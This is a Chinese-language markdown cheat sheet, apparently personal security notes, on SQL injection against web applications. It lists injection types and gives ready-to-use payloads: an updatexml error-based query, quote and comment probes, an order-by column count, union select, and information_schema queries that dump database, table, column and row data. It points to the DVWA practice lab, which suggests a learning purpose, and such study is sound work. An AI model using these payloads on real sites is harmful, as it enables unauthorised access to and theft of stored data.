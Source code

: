 # SQL 注入
## 注入方法
1) 联合查询注入
2) 报错注入
?id=1' and updatexml(1,(concat('^',database(),'^')),1) --
3) 延迟注入
4) BOOL盲注
## 常用SQL注入字符
```SQL
` . ' " ) ] } / \ --
```
## Firefox 黑客工具栏
- Hackbar
## 联合查询注入
1) 看页面URL地质是否有后台传参动作
2) 构造传参值  ?id=51' 验证输入后台是否能够解析
3) and 1=1判断页面是否正常； and 1=2 判断页面是否部分报错; or 1=1 
4) order by 5 (5可以是其他数字，找到报错和不报错的临界点，取不报错的最大值)
5) union select 1,2,3,4,5,6,7 --+ 
- --+指注释掉插入攻击语句后的所有代码
- 匹配order by 验证出来的列数
- 联合查询时，前面Id的值要用负数（-5）
6) union select 1,2,3,4,5,6,构造语句,7
- database()  当前使用的数据库名称
- user()      当前登陆数据库的用户
- @@version   当前数据库版本
- @@basedir   查看路径
7) 爆库   查看当前数据库中有哪些表
```SQL
(select group_concat(table_name) from information_schema.tables where table_schema=0xxxx)
-- table_schema 的值需要输入16进制
```
8) 爆表   找到疑似关键信息的表
9) 查询表的列
```SQL
(select group_concat(column_name) from information_schema.columns where table_schema=0xxxx and table_name=0xxxx)
-- table_schema 和 tabale_name 的值需要输入16进制
```
10) 爆数据  查询表中的数据
```SQL
(select group_concat(concat(column1, column2, '%23')) from table_name)
-- %23 是URL编码
```

## PHP攻击练习工具
![DVWA](https://github.com/digininja/DVWA)
